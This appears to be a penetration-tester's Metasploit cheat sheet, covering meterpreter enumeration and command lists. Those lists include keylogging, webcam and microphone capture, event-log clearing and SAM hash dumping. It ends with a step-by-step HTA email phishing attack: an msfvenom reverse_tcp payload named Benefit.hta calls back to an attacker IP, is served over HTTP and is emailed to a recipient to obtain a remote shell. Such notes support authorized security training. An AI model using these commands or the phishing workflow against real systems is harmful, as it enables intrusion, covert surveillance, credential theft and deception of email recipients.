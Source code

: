 # Metasploit

## Local Enumeration

- Let's suppose we have a shell
- We interact with it using `sessions -i number-of-session`
- `sysinfo` will give info on win version, architecture etc
- `getuid` to have current user info
- `ipconfig` to get network info
- `arp` other information about network
- `netstat -ano` to get info on listener and other
- `ps to check processes
- `run post/windows/gather/enum_services` enumerate services
- `run post/windows/gather/enum_applications` enumerate applications
- `run post/windows/gather/enum_domains` enumerate domains (works better on msf5 than 6)
- `route` check out routes


## Catch a shell with meterpreter

### Generate shell with msfvenom:

`msfvenom --list payloads | grep meterpreter`

### List formats

`msfvenom --list formats`

### To generate payload take in account

- Target OS (Win, Linux, Mac)
- Language you need (Python, PHP, ...)
- Netwok connection types (TCP, HTTPS,...) 

### Cath the shell
`use exploit/multi/handler`
If you want meterpreter commands choose type of payload with meterpreter
Set `LHOST` and `LPORT` and `run` to catch the shell

### Meterpreter Commands
You can see this when typing `help`
```
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
```
Note: the commands can change depending on your version of meterpreter

#### Core commands

```
background: Backgrounds the current session
exit: Terminate the Meterpreter session
guid: Get the session GUID (Globally Unique Identifier)
help: Displays the help menu
info: Displays information about a Post module
irb: Opens an interactive Ruby shell on the current session
load: Loads one or more Meterpreter extensions (Kiwi for example)
migrate: Allows you to migrate Meterpreter to another process
run: Executes a Meterpreter script or Post module
sessions: Quickly switch to another session
```

#### File system commands

```
cd: Will change directory
ls: Will list files in the current directory (dir will also work)
pwd: Prints the current working directory
edit: will allow you to edit a file
cat: Will show the contents of a file to the screen
rm: Will delete the specified file
search: Will search for files
upload: Will upload a file or directory
download: Will download a file or directory
```

#### Networking commands

```
arp: Displays the host ARP (Address Resolution Protocol) cache
ifconfig: Displays network interfaces available on the target system
netstat: Displays the network connections
portfwd: Forwards a local port to a remote service
route: Allows you to view and modify the routing table
System commands
clearev: Clears the event logs
execute: Executes a command
getpid: Shows the current process identifier
getuid: Shows the user that Meterpreter is running as
kill: Terminates a process
pkill: Terminates processes by name
ps: Lists running processes
reboot: Reboots the remote computer
shell: Drops into a system command shell
shutdown: Shuts down the remote computer
sysinfo: Gets information about the remote system, such as OS
```

#### Others Commands

```
idletime: Returns the number of seconds the remote user has been idle
keyscan_dump: Dumps the keystroke buffer
keyscan_start: Starts capturing keystrokes
keyscan_stop: Stops capturing keystrokes
screenshare: Allows you to watch the remote user's desktop in real time
screenshot: Grabs a screenshot of the interactive desktop
record_mic: Records audio from the default microphone for X seconds
webcam_chat: Starts a video chat
webcam_list: Lists webcams
webcam_snap: Takes a snapshot from the specified webcam
webcam_stream: Plays a video stream from the specified webcam
getsystem: Attempts to elevate your privilege to that of local system
hashdump: Dumps the contents of the SAM database
```

## HTA Email Phishing

### Create the payload with msfvenom

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP-OF-ATTACK-MACHINE LPORT=443 -f hta-psh -o Benefit.hta
```

### Set up metasploit

- `msfconsole`
- `use exploit/multi/handler`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set LHOST IP-OF-ATTACK-MACHINE`
- `set LPORT 443`
- `exploit -j`

### Host the file

- Launch this in the folder where the payload is `python3 -m http.server 80`

### Send the phishing email

- We can now send an email with a link to our reverse shell `http://IP-OF-ATTACK-MACHINE/name-of-your-script.hta`
- When the phishing receptient will execute the file we will get a reverse shell

### Catch your shell and interact

- In your metasploit shell launch `sessions`
- We should see a new meterpreter sessions from our taget machine
- To interact with it we can do `sessions -i number-of-session`
